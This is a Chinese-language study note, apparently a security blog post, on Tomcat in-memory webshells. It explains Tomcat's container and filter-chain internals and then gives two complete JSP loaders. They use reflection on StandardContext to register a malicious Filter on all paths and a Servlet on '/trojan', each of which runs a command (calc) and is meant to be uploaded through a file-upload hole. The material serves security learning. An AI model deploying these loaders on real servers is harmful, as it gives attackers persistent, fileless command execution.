

# Java Tomcat 内存马

1. 两年前粗略的学了一下，现在回过头来看，真的是啥也不会。

2. 重新看，再难啃的骨头也要吃下，这种涉及代码的还得自己跟着走一遍

3. 文章大体的内容基于 su18 师傅的文章：

    > https://su18.org/post/memory-shell/#filter-%E5%86%85%E5%AD%98%E9%A9%AC

## 1. Tomcat 架构

1. 之前学的时候没有注意 Tomcat 架构，逮着文章就是嗯跟着，从头看的时候发现很吃力，而且逻辑感很差，因此看 Tomcat 架构是有必要的。

2. 文章主要参考：

    > https://segmentfault.com/a/1190000023475177#item-2-6
    > https://blog.csdn.net/ldw201510803006/article/details/119880100
    > https://blog.csdn.net/xlgen157387/article/details/79006434

### 1.1 Tomcat 主体部分

1. Tomcat 中的核心组件包含 Connector 和 Engine 两大类，分别负责对外处理网络连接，对内处理业务请求。
    
    Server 对应的就是一个 Tomcat 实例。Service 默认只有一个，也就是一个 Tomcat 实例默认一个 Service。

2. 内存马主要的作用域在 Engine 内，因此主要来看 Engine。

    1. Engine/Container：引擎，用来管理多个站点，一个 Service 最多只能有一个 Engine；
    2. Host：代表一个站点，也可以叫虚拟主机，通过配置 Host 就可以添加站点；
    3. Wrapper：每一 Wrapper 封装着一个 Servlet；
    4. Context：代表一个应用程序，对应着平时开发的一套程序，或者一个 WEB-INF 目录以及下面的 web.xml 文件；

    在 JavaWeb 的项目中，大概的对应关系：
    

### 1.2 Container 的请求处理

1. 先来看请求的定位，一个请求是如何定位到让哪个 Wrapper 的 Servlet 处理的？答案是，Tomcat 是用 Mapper 组件来完成这个任务的。
    Mapper 组件的功能就是将用户请求的 URL 定位到一个 Servlet，它的工作原理是：Mapper 组件里保存了 Web 应用的配置信息，其实就是**容器组件与访问路径的映射关系**，比如 Host 容器里配置的域名、Context 容器里的 Web 应用路径，以及  Wrapper 容器里 Servlet 映射的路径，你可以想象这些配置信息就是一个多层次的 Map。
    当一个请求到来时，Mapper 组件通过解析请求 URL 里的域名和路径，再到自己保存的 Map 里去查找，就能定位到一个 Servlet。请你注意，一个请求 URL 最后只会定位到一个 Wrapper容器，也就是一个 Servlet。
    
2. 接下来就是调用过程，从 Engine 到 Context 再到具体的 Wrapper 和 Servlet，这其中涉及到了编程范式中的 Pipeline-Valve 管道，即责任链模式。
    Pipeline-Valve 是责任链模式，责任链模式是指在一个请求处理的过程中有很多处理者依次对请求进行处理，每个处理者负责做自己相应的处理，处理完之后将再调用下一个处理者继续处理，Valve 表示一个处理点（也就是一个处理阀门），因此 `invoke()`方法就是来处理请求的。处理流程如下：
    
    需要注意一下最后的 `StandardWrapperValve`，当执行到 `StandardWrapperValve` 的时候，**会在 `StandardWrapperValve` 中动态创建 `FilterChain`，并调用其 `doFilter()` 方法来处理请求**，这个 `FilterChain` 包含着我们配置的与请求相匹配的 Filter 和 Servlet，其 `doFilter()` 方法会依次调用所有的 Filter 的 `doFilter()` 方法和 Servlet 的 `service()` 方法，这样请求就得到了处理！
    当所有的 Pipeline-Valve 都执行完之后，并且处理完了具体的请求，这个时候就可以将返回的结果交给 Connector 了，Connector 再通过 Socket 的方式将结果返回给客户端。

### 1.3 一些 Context 的区别

1. 在学习内存马的时候，常常会遇到这三种 Context：`ServletContext`、`ApplicationContext` 和 `StandardContext`。先来讲清楚这三个 Context 的关系。先给出关系，`ServletContext` 和 `ApplicationContext` 是一类，`StandardContext` 是另外一类。
2. 首先就是来源不同，`ServletContext` 接口的完整包名是 `javax.servlet.ServletContext`（可能后面 Tomcat 版本是 jakarta），同时 `ApplicationContext` 是 `ServletContext` 的继承实现类；
    然而 `StandardContext` 是 `org.apache.catalina.core`，继承实现 `org.apache.catalina.Context`，因此是 Tomcat 内部的类。
3. 其实本质是 Servlet 和 Tomcat 的关系，Servlet 是一个处理请求的接口规范，**因此 `ServletContext` 就是 Servlet 提供的接口**，该接口的作用是定义一些方法，这些方法用于 Container 下的所有 Servlet 和 Container 的交互，只不过 Tomcat 使用 `ApplicationContext` 来完成这个接口规范的实现。
    而 `StandardContext` 继承实现自 `org.apache.catalina.Context`，而**这个 Context 就是 Tomcat 内部组件的一部分。**
4. 如果从源代码和实际功能的角度来看，`ApplicationContext` 内部的大部分方法都走的 `StandardContext`：
    
    也就是说，**实际上对 Tomcat 容器进行操作的底层类是 `StandardContext`**，而 `ApplicationContext` 主要是从 Servlet 角度，进行一些 Servlet 上下文信息的处理。 
5. 补充：`ApplicationContext` 的实现使用了“门面模式”的设计思想。有关门面模式可见：

    > https://www.runoob.com/w3cnote/facade-pattern-3.html

    因此这个门面/接待员就是 `ApplicationContextFacade`。

## 2. Filter 型内存马

1. Filter 我们称之为过滤器，是 Java 中最常见也最实用的技术之一，通常被用来处理静态 web 资源、访问权限控制、记录日志等附加功能等等。一次请求进入到服务器后，将先由 Filter 对用户请求进行预处理，再交给 Servlet。
    通常情况下，Filter 配置在配置文件和注解中，在其他代码中如果想要完成注册，主要有以下几种方式：

    1. 使用 `ServletContext` 的 `addFilter/createFilter` 方法注册；
    2. 使用 `ServletContextListener` 的 `contextInitialized` 方法在服务器启动时注册（将会在 Listener 中进行描述）；
    3. 使用 `ServletContainerInitializer` 的 `onStartup` 方法在初始化时注册（非动态，后面会描述）。

2. 本节只讨论使用 `ServletContext` 添加 Filter 内存马的方法。首先来看一下 `createFilter` 方法，按照注释（这里版本不一样，没有那个注释），这个类用来在调用 `addFilter` 向 `ServletContext` 实例化一个指定的 Filter 类。
    
    可以看到它的说明：

    > Create a Filter instance using the given class. The instance is just created. No initialisation occurs.
    > 用给定的 class 创建一个 Filter 实例，新建的 Filter 实例就仅仅创建，不会进行任何的初始化。

    接下来看 `addFilter` 方法，`ServletContext` 中有三个重载方法，分别接收字符串类型的 filterName 以及 Filter 对象/className 字符串/Filter 子类的 Class 对象，提供不同场景下添加 filter 的功能，这些方法均返回 `FilterRegistration.Dynamic` 实际上就是 `FilterRegistration` 对象。
    

3. 由于 Servlet API 只是提供接口定义，具体的实现还要看具体的容器。以 Tomcat 8.5.78 为例，具体实现在 `org.apache.catalina.core.ApplicationContext#addFilter`
    来看它源代码：

    ```java
    // 源代码
    private FilterRegistration.Dynamic addFilter(String filterName,
                                                 String filterClass, Filter filter) throws IllegalStateException {
    	// filterName 不能为空
        if (filterName == null || filterName.equals("")) {
            throw new IllegalArgumentException(sm.getString(
                "applicationContext.invalidFilterName", filterName));
        }
    
        // 判断当前的 context 的 state 是否是 LifecycleState.STARTING_PREP
        if (!context.getState().equals(LifecycleState.STARTING_PREP)) {
            //TODO Spec breaking enhancement to ignore this restriction
            throw new IllegalStateException(
                sm.getString("applicationContext.addFilter.ise",
                             getContextPath()));
        }
    
        // 拿到 FilterDef
        FilterDef filterDef = context.findFilterDef(filterName);
    
        // Assume a 'complete' FilterRegistration is one that has a class and
        // a name
        // 这里根据 filterName 创建 FilterDef
        if (filterDef == null) {
            filterDef = new FilterDef();
            filterDef.setFilterName(filterName);
            context.addFilterDef(filterDef);
        } else {
            if (filterDef.getFilterName() != null &&
                filterDef.getFilterClass() != null) {
                return null;
            }
        }
    
        if (filter == null) {
            filterDef.setFilterClass(filterClass);
        } else {
            filterDef.setFilterClass(filter.getClass().getName());
            filterDef.setFilter(filter);
        }
    	// 新建一个 ApplicationFilterRegistration
        return new ApplicationFilterRegistration(filterDef, context);
    }
    ```

    到这这个 `Filter` 创建成功了，但是它起作用了吗？其实并没有。这里得学习 Servlet 中 `Filter` 的工作流程：

    > [菜鸟教程](https://www.runoob.com/w3cnote/filter-filterchain-filterconfig-intro.html)：
    >
    > - 1、Filter 程序是一个实现了特殊接口的 Java 类，与 Servlet 类似，也是由 Servlet 容器进行调用和执行的。
    > - 2、当在 web.xml 注册了一个 Filter 来对某个 Servlet 程序进行拦截处理时，它可以决定是否将请求继续传递给 Servlet 程序，以及对请求和响应消息是否进行修改。
    > - 3、当 Servlet 容器开始调用某个 Servlet 程序时，如果发现已经注册了一个 Filter 程序来对该 Servlet 进行拦截，那么容器不再直接调用 Servlet 的 service 方法，而是调用 Filter 的 doFilter 方法，再由 doFilter 方法决定是否去激活 service 方法。
    > - 4、但在 Filter.doFilter 方法中不能直接调用 Servlet 的 service 方法，**而是调用 FilterChain.doFilter 方法来激活目标 Servlet 的 service 方法**，FilterChain 对象时通过 Filter.doFilter 方法的参数传递进来的。
    > - 5、只要在 Filter.doFilter 方法中调用 FilterChain.doFilter 方法的语句前后增加某些程序代码，这样就可以在 Servlet 进行响应前后实现某些特殊功能。
    > - 6、如果在 Filter.doFilter 方法中没有调用 FilterChain.doFilter 方法，则目标 Servlet 的 service 方法不会被执行，这样通过 Filter 就可以阻止某些非法的访问请求。

    显然，想要让新建的 `Filter` 起作用，其必须在 `FilterChain` 中，那么先来看 `FilterChain` 这个对象（实际上就是 `org.apache.catalina.core.ApplicationFilterChain`，因为就这一个实现类）：
    
    官方说明：

    > Implementation of javax.servlet.FilterChain used to manage the execution of a set of filters for a particular request. When the set of defined filters has all been executed, the next call to doFilter() will execute the servlet's service() method itself.

    基本的意思就是强调了它的作用。
    来看一下这个类实现作用的底层，首先它有一个内部对象，用于存放 `Filters`：
    
    然后该类对外提供一个 `addFilter()`，动态对 filters 进行扩容：
    
    最后核心功能代码处在 `internalDoFilter()`：
    

4. 到这里，我们暂时有一个思路：“向 `ApplicationFilterChain` 中插入 `Filter`”。但是实际上 `ApplicationFilterChain` 是动态获取的，而不是全局调用一个公用的。前文提到过 Container Pipeline-Valve 责任链模式，在最后的 `StandardWrapperValve` 中会创建 `FilterChain`：
    
    可以看出，一次请求对应一个 `FilterChain`，因此上述思路并不能实现。

5. 既然不能向已有的 `ApplicationFilterChain` 里面添加 `FilterChain`，那么思路向上延伸，“能否从官方的 `createFilterChain()` 下手，模仿官方的行为向内插入呢”？那么接下来就要跟进 `createFilterChain()` 这个方法。
    ```java
    public static ApplicationFilterChain createFilterChain(ServletRequest request, Wrapper wrapper, Servlet servlet) {
    
        // If there is no servlet to execute, return null
        if (servlet == null) {
            return null;
        }
    
        // Create and initialize a filter chain object
        ApplicationFilterChain filterChain = null;
        if (request instanceof Request) {
            Request req = (Request) request;
            if (Globals.IS_SECURITY_ENABLED) {
                // Security: Do not recycle
                filterChain = new ApplicationFilterChain();
            } else {
                filterChain = (ApplicationFilterChain) req.getFilterChain();
                if (filterChain == null) {
                    filterChain = new ApplicationFilterChain();
                    req.setFilterChain(filterChain);
                }
            }
        } else {
            // Request dispatcher in use
            filterChain = new ApplicationFilterChain();
        }
    
        // 到此已经创建了一个 filterChain 实例
        filterChain.setServlet(servlet);
        filterChain.setServletSupportsAsync(wrapper.isAsyncSupported());
    
        // Acquire the filter mappings for this Context
        // 获取 context
        StandardContext context = (StandardContext) wrapper.getParent();
        // 从 context 拿到 filterMaps
        FilterMap filterMaps[] = context.findFilterMaps();
    
        // If there are no filter mappings, we are done
        if ((filterMaps == null) || (filterMaps.length == 0)) {
            return filterChain;
        }
    
        // Acquire the information we will need to match filter mappings
        DispatcherType dispatcher =
            (DispatcherType) request.getAttribute(Globals.DISPATCHER_TYPE_ATTR);
    
        String requestPath = null;
        Object attribute = request.getAttribute(Globals.DISPATCHER_REQUEST_PATH_ATTR);
        if (attribute != null){
            requestPath = attribute.toString();
        }
    
        String servletName = wrapper.getName();
    
        // Add the relevant path-mapped filters to this filter chain
        // URL 和 filterMap 匹配成功后，根据 filterMap 的 filterName 将 filterConfig 加入到 filterChain
        for (FilterMap filterMap : filterMaps) {
            if (!matchDispatcher(filterMap, dispatcher)) {
                continue;
            }
            if (!matchFiltersURL(filterMap, requestPath)) {
                continue;
            }
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
                context.findFilterConfig(filterMap.getFilterName());
            if (filterConfig == null) {
                // FIXME - log configuration problem
                continue;
            }
            filterChain.addFilter(filterConfig);
        }
    
        // Add filters that match on servlet name second
        for (FilterMap filterMap : filterMaps) {
            if (!matchDispatcher(filterMap, dispatcher)) {
                continue;
            }
            if (!matchFiltersServlet(filterMap, servletName)) {
                continue;
            }
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
                context.findFilterConfig(filterMap.getFilterName());
            if (filterConfig == null) {
                // FIXME - log configuration problem
                continue;
            }
            filterChain.addFilter(filterConfig);
        }
    
        // Return the completed filter chain
        return filterChain;
    }
    ```

    根据这段代码，可以总结以下要点：

    1. 从 `context` 拿到 `filterMaps`。
    2. 遍历 `filterMaps`，URL 和 `filterMap` 匹配成功后，`context` 根据 `filterMap` 所对应的 `filterName` 将 `filterConfig` 加入到 `filterChain`。
        跟进 `context.findFilterConfig(filterMap.getFilterName())` 可以发现，其本质是从 `context#filterConfigs` 中拿去 `filterConfig`。

    因此，想要塞入 `Filter`，现在需要向 `context` 中的 `filterMaps` 和 `filterConfigs` 分别添加符合要求的 `filterMap` 和 `filterConfig`。那么现在恶意 `Filter` 对应的 `filterMap` 和 `filterConfig` 如何创建？

6. `filterMaps` 的来源在 `context`（也就是 `StandardContext`），那么看看这个 `StandardContext` 中是否提供了 `addFilterMap` 这种方法，结果还真有：
    
    然后就是找它的使用，一般添加 `FilterMap` 的地方大概率有实例化 `FilterMap` 的地方：
    
    无独有偶，来看一下 `FilterConfig`（走 `FilterMap` 的思路不行，直接开搜）：
    
    可以看出，两者的实例化都和 `filterDef` 有关。
    然后这个 `filterDef` 和 `filterDefs`，其实在上文的 `org.apache.catalina.core.ApplicationContext#addFilter` 里面就有创建和添加。

7. 总结一下，现在创建内存马的过程可以如下：

    1. 调用 `org.apache.catalina.core.ApplicationContext#addFilter`，向其中创建恶意 `Filter` 的 `filterDef`，并塞入 `filterDefs`。
        ```java
        ...
        // 拿到 FilterDef
        FilterDef filterDef = context.findFilterDef(filterName);
        
        // Assume a 'complete' FilterRegistration is one that has a class and
        // a name
        // 这里根据 filterName 创建 FilterDef
        if (filterDef == null) {
            filterDef = new FilterDef();
            filterDef.setFilterName(filterName);
            context.addFilterDef(filterDef);
        } else {
            if (filterDef.getFilterName() != null &&
                filterDef.getFilterClass() != null) {
                return null;
            }
        }
        
        if (filter == null) {
            filterDef.setFilterClass(filterClass);
        } else {
            filterDef.setFilterClass(filter.getClass().getName());
            filterDef.setFilter(filter);
        }
        ...
        ```

        其中涉及判断当前的 context 的 state 是否是 `LifecycleState.STARTING_PREP`。

    2. 仿照 `addFilterMap()` 的调用者 `ApplicationFilterRegistration#addMappingForUrlPatterns()` 手动添加，或者我直接调用这个 `addMappingForUrlPatterns()`。

    3. `FilterConfig` 同理，仿照 `StandardContext#filterStart()` 手动添加，或者我直接调用这个 `filterStart()`。

    4. 为了兼容某些特殊情况，将我们加入的 filter 放在 `filterMaps` 的第一位，可以自己修改其中的顺序，也可以在自己调用 `StandardContext` 的 `addFilterMapBefore` 直接加在 `filterMaps` 的第一位。

8. 那么上文中一直提到的 context，也就是 `StandardContext` 怎么获取呢？
    在 `ContextConfig` 这个类中，Tomcat 完成 Context 的一些属性的配置和初始化，其中就包括 Filter、Listener 和 Servlet。
    

    其次，`ContextConfig` 中的方法 `configureContext()`，里面就对 `StandardContext` 进行了初始化。在里面打断点调试一下，可以看到 `standardContext` 有很多属性，其中包括 Filter、Listener 和 Servlet（即在该方法中注册）。
    

    一般程序拿到 `context` 都是通过 `request.getServletContext()` 方法，但是该方法拿到的是 `ApplicationContextFacade`，打个断点看看其内容，最终发现 `StandardContext`：
     
     即 `ApplicationContextFacade` 的 `context` 的 `context`。
     因此通过反射获取。

9. 到此，所有前置条件基本准备完成，其实既然知道要向哪里塞入什么数据，那么可以都用反射。最终写的木马如下：
      ```jsp
      <%@ page import="javax.servlet.annotation.WebFilter" %>
      <%@ page import="java.io.IOException" %>
      <%@ page import="java.lang.reflect.Field" %>
      <%@ page import="org.apache.catalina.core.ApplicationContext" %>
      <%@ page import="org.apache.catalina.core.StandardContext" %>
      <%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
      <%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
      <%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
      <%@ page import="java.lang.reflect.InvocationTargetException" %>
      <%@ page import="javax.naming.NamingException" %>
      <%@ page import="java.lang.reflect.Constructor" %>
      <%@ page import="java.util.HashMap" %>
      <%@ page import="org.apache.catalina.Context" %><%--
        Created by IntelliJ IDEA.
        User: hasee
        Date: 2023/5/5
        Time: 9:58
        To change this template use File | Settings | File Templates.
      --%>
      <%@ page contentType="text/html;charset=UTF-8" language="java" %>
      <html>
      <head>
          <title>Title</title>
      </head>
      <body>
      <%!
          @WebFilter(urlPatterns = "/*")
          public class MemoryTrojanFilter implements Filter {
              @Override
              public void init(FilterConfig filterConfig) throws ServletException {
              }
      
              @Override
              public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                  Runtime.getRuntime().exec("calc");
                  chain.doFilter(request, response);
              }
      
              @Override
              public void destroy() {
              }
          }
      %>
      <%
          // 动态注册 Filter
          // 1. 获取 StandardContext
          ServletContext servletContext = request.getServletContext();
          // ServletContext 中有 ApplicationContext，ApplicationContext 中又有 StandardContext。通过反射获取到 ApplicationContextField。
          Field applicationContextField = servletContext.getClass().getDeclaredField("context");
          applicationContextField.setAccessible(true);
          // 通过反射拿到 servletContext 具体的 ApplicationContext
          ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
          // 重复上述过程，从具体的 ApplicationContext 中拿到具体的 StandardContext
          Field standardContextField = applicationContext.getClass().getDeclaredField("context");
          standardContextField.setAccessible(true);
          StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
          // 2. 向 standardContext 的 filterConfigs、filterDefs、filterMaps 中插入值
          // 2.1.1 先创建 filterDef
          FilterDef filterDef = new FilterDef();
          MemoryTrojanFilter memoryTrojanFilter = new MemoryTrojanFilter();
          filterDef.setFilter(memoryTrojanFilter);
          filterDef.setFilterClass(String.valueOf(memoryTrojanFilter.getClass()));
          filterDef.setFilterName(memoryTrojanFilter.getClass().getName());
          // 2.1.2 往 filterDefs 里面插值
          standardContext.addFilterDef(filterDef);
          // 2.2.1 创建 filterMap
          FilterMap filterMap = new FilterMap();
          filterMap.setFilterName(memoryTrojanFilter.getClass().getName());
          filterMap.addURLPattern("/*");
          // 2.2.2 插入到 filterMaps
          standardContext.addFilterMap(filterMap);
          // 2.3.1 创建 ApplicationFilterConfig
          // 无法通过 new 直接创建，因为 ApplicationFilterConfig is not public in 'org.apache...'. Cannot be accessed from outside package
          // 因此只能通过反射来创建对象
          Class<ApplicationFilterConfig> applicationFilterConfigClass = ApplicationFilterConfig.class;
          ApplicationFilterConfig applicationFilterConfig = null;
          try {
              Constructor<ApplicationFilterConfig> applicationFilterConfigConstructor = applicationFilterConfigClass.getDeclaredConstructor(Context.class, FilterDef.class);
              applicationFilterConfigConstructor.setAccessible(true);
              applicationFilterConfig = applicationFilterConfigConstructor.newInstance(standardContext, filterDef);
          } catch (NoSuchMethodException e) {
              throw new RuntimeException(e);
          }
          // 2.3.2 把 applicationFilterConfig 放入到 filterConfigs 当中，standardContext 中没有直接放入的方法，还得通过反射拿到 filterConfigs
          try {
              Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
              filterConfigsField.setAccessible(true);
              HashMap<String, ApplicationFilterConfig> filterConfigs = (HashMap<String, ApplicationFilterConfig>) filterConfigsField.get(standardContext);
              // 2.3.3 把 applicationFilterConfig 放入到 filterConfigs 当中
              filterConfigs.put(memoryTrojanFilter.getClass().getName(), applicationFilterConfig);
          } catch (IllegalAccessException e) {
              throw new RuntimeException(e);
          }
      %>
      </body>
      </html>
      ```

    将该代码放进一个 jsp 并上传，然后访问。之后只要访问该站点的页面，就会喜提计算器。

## 3. Servlet 型内存马

1. 在开始 Context 型内存马之前，需要对 Filter 型内存马进行一个总结：
    1. `StandardContext` 并不提供 Filter 和 Servlet 的创建和插入：
        
        因此上面创建 Filter 的过程反而从 `ApplicationContext` 出发。
    2. 但是 `ApplicationContext` 提供的添加 Filter 的方法，并不能真正的直接添加（因为其本质上只是 Servlet 的规范），但是可以了解其相关实例化的流程，最终将 Filter 加入 Tomcat 容器的途径依旧要靠一些方法将其和其的相关类塞入到容器的对应组件类中。这点在接下来的 Servlet 型内存马也依旧体现。

2. 和 Filter 相似，依旧按照分析 Filter 的思路来分析 Servlet。使用 `ServletContext` 的 `addServlet/createFilter` 方法注册；先来看一下 `addServlet`：
    ```java
    private ServletRegistration.Dynamic addServlet(String servletName, String servletClass,
                                                   Servlet servlet, Map<String,String> initParams) throws IllegalStateException {
    
        if (servletName == null || servletName.equals("")) {
            throw new IllegalArgumentException(sm.getString(
                "applicationContext.invalidServletName", servletName));
        }
    
        // 还是熟悉的状态判断
        if (!context.getState().equals(LifecycleState.STARTING_PREP)) {
            //TODO Spec breaking enhancement to ignore this restriction
            throw new IllegalStateException(
                sm.getString("applicationContext.addServlet.ise",
                             getContextPath()));
        }
    
        // 在 Filter 中用的是 fildFilterDef，这里就是 wrapper 了
        Wrapper wrapper = (Wrapper) context.findChild(servletName);
    
        // Assume a 'complete' ServletRegistration is one that has a class and
        // a name
        if (wrapper == null) {
            wrapper = context.createWrapper();
            wrapper.setName(servletName);
            context.addChild(wrapper);
        } else {
            if (wrapper.getName() != null &&
                wrapper.getServletClass() != null) {
                if (wrapper.isOverridable()) {
                    wrapper.setOverridable(false);
                } else {
                    return null;
                }
            }
        }
    
        // 和 Filter 相似的逻辑
        ServletSecurity annotation = null;
        if (servlet == null) {
            wrapper.setServletClass(servletClass);
            Class<?> clazz = Introspection.loadClass(context, servletClass);
            if (clazz != null) {
                annotation = clazz.getAnnotation(ServletSecurity.class);
            }
        } else {
            wrapper.setServletClass(servlet.getClass().getName());
            wrapper.setServlet(servlet);
            if (context.wasCreatedDynamicServlet(servlet)) {
                annotation = servlet.getClass().getAnnotation(ServletSecurity.class);
            }
        }
    
        if (initParams != null) {
            for (Map.Entry<String, String> initParam: initParams.entrySet()) {
                wrapper.addInitParameter(initParam.getKey(), initParam.getValue());
            }
        }
    
        // 创建 ApplicationServletRegistration 并返回
        ServletRegistration.Dynamic registration =
            new ApplicationServletRegistration (wrapper, context);
        if (annotation != null) {
            registration.setServletSecurity(new ServletSecurityElement(annotation));
        }
        return registration;
    }
    ```

    结合 Tomcat 容器组件知识，可以看到，其需要创建 Wrapper 来包装 Servlet。

3. 但是如果只按照这个方法来创建 Wrapper 并将其塞入到 Context 中，依旧还是缺少步骤，因此还可以从官方初始化 Servlet 出发，审计源码，了解一个 Servlet 是如何初始化的。`ContextConfig` 的 `configureContext()` 中，展示了在 Tomcat 启动时如何注册了 servlet：

    ```java
    ...
    // 根据 Web.xml 初始化 Servlet
    for (ServletDef servlet : webxml.getServlets().values()) {
        // 创建了一个 Wrapper 包装类
        Wrapper wrapper = context.createWrapper();
        
        // --------------------------------- 一些初始化
        // Description is ignored
        // Display name is ignored
        // Icons are ignored
        // jsp-file gets passed to the JSP Servlet as an init-param
        if (servlet.getLoadOnStartup() != null) {
            wrapper.setLoadOnStartup(servlet.getLoadOnStartup().intValue());
        }
        if (servlet.getEnabled() != null) {
            wrapper.setEnabled(servlet.getEnabled().booleanValue());
        }
        // ---------------------------------
        
        // 包装类添加了 Servlet 的名字
        wrapper.setName(servlet.getServletName());
        // 为 Wrapper 初始化添加参数（根据 Web.xml）
        Map<String,String> params = servlet.getParameterMap();
        for (Entry<String, String> entry : params.entrySet()) {
            wrapper.addInitParameter(entry.getKey(), entry.getValue());
        }
        // 设置 Wrapper 的 identity
        wrapper.setRunAs(servlet.getRunAs());
        Set<SecurityRoleRef> roleRefs = servlet.getSecurityRoleRefs();
        for (SecurityRoleRef roleRef : roleRefs) {
            wrapper.addSecurityReference(
                roleRef.getName(), roleRef.getLink());
        }
        // 包装类添加了 Servlet 的字节码
        wrapper.setServletClass(servlet.getServletClass());
        // --------------------------------- 一些初始化
        MultipartDef multipartdef = servlet.getMultipartDef();
        if (multipartdef != null) {
            long maxFileSize = -1;
            long maxRequestSize = -1;
            int fileSizeThreshold = 0;
    
            if(null != multipartdef.getMaxFileSize()) {
                maxFileSize = Long.parseLong(multipartdef.getMaxFileSize());
            }
            if(null != multipartdef.getMaxRequestSize()) {
                maxRequestSize = Long.parseLong(multipartdef.getMaxRequestSize());
            }
            if(null != multipartdef.getFileSizeThreshold()) {
                fileSizeThreshold = Integer.parseInt(multipartdef.getFileSizeThreshold());
            }
    
            wrapper.setMultipartConfigElement(new MultipartConfigElement(
                multipartdef.getLocation(),
                maxFileSize,
                maxRequestSize,
                fileSizeThreshold));
        }
        if (servlet.getAsyncSupported() != null) {
            wrapper.setAsyncSupported(
                servlet.getAsyncSupported().booleanValue());
        }
        wrapper.setOverridable(servlet.isOverridable());
        // --------------------------------- 一些初始化
        
        // 这里就是向 context 塞入了 wrapper
        context.addChild(wrapper);
    }
    // 添加 Wrapper 和 URL 的映射
    for (Entry<String, String> entry :
         webxml.getServletMappings().entrySet()) {
        // 这里还有重要一步
        context.addServletMappingDecoded(entry.getKey(), entry.getValue());
    }
    ...
    ```

    结合开发 JavaWeb 的经验，总结一下其必须的要求大概如下：
    ```java
    wrapper = context.createWrapper();
    wrapper.setName(servlet.getServletName());
    wrapper.setServletClass(servlet.getServletClass());
    context.addChild(wrapper);
    ```

4. 模仿 `configureContext()` 的过程，编写的木马如下：
    ```jsp
    <%@ page import="javax.servlet.annotation.WebServlet" %>
    <%@ page import="java.io.IOException" %>
    <%@ page import="java.io.PrintWriter" %>
    <%@ page import="java.lang.reflect.Field" %>
    <%@ page import="org.apache.catalina.core.ApplicationContext" %>
    <%@ page import="org.apache.catalina.core.StandardContext" %>
    <%@ page import="org.apache.catalina.Wrapper" %><%--
      Created by IntelliJ IDEA.
      User: hasee
      Date: 2023/5/4
      Time: 16:38
      To change this template use File | Settings | File Templates.
    --%>
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Title</title>
    </head>
    <body>
    <%!
      @WebServlet(urlPatterns = "/trojan")
      public class MemoryTrojanServlet extends HttpServlet {
        private String message;
    
        @Override
        public void init() {
          message = "Servlet Range!";
        }
    
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
          Runtime.getRuntime().exec("calc");
        }
      }
    %>
    <%
      // 动态注册 Servlet （前提，有一个文件上传点，这个 servlet.jsp 文件就是小马，访问后就会生成内存马）
      // 1. 获取 StandardContext
      ServletContext servletContext = request.getServletContext();
      // ServletContext 中有 ApplicationContext，ApplicationContext 中又有 StandardContext。通过反射获取到 ApplicationContextField。
      Field applicationContextField = servletContext.getClass().getDeclaredField("context");
      applicationContextField.setAccessible(true);
      // 通过反射拿到 servletContext 具体的 ApplicationContext
      ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
      // 重复上述过程，从具体的 ApplicationContext 中拿到具体的 StandardContext
      Field standardContextField = applicationContext.getClass().getDeclaredField("context");
      standardContextField.setAccessible(true);
      StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
      // 2. 将该 Servlet 注册到 Context 当中（过程和 StandardContext 注册 Servlet 一样）
      Wrapper wrapper = standardContext.createWrapper();
      wrapper.setName("MemoryTrojanServlet");
      wrapper.setServletClass(MemoryTrojanServlet.class.getName());
      // 这里需要补充一个 Servlet 的实例化，因为 Servlet 默认是懒加载的
      wrapper.setServlet(new MemoryTrojanServlet());
      standardContext.addChild(wrapper);
      // 这里就相当于写木马了，访问 /servlet 后，就会调用 MemoryTrojanServlet 的 doGet，从而喜提计算器
      standardContext.addServletMappingDecoded("/trojan", "MemoryTrojanServlet");
    %>
    </body>
    </html>
    ```

## 4. Listener 内存马

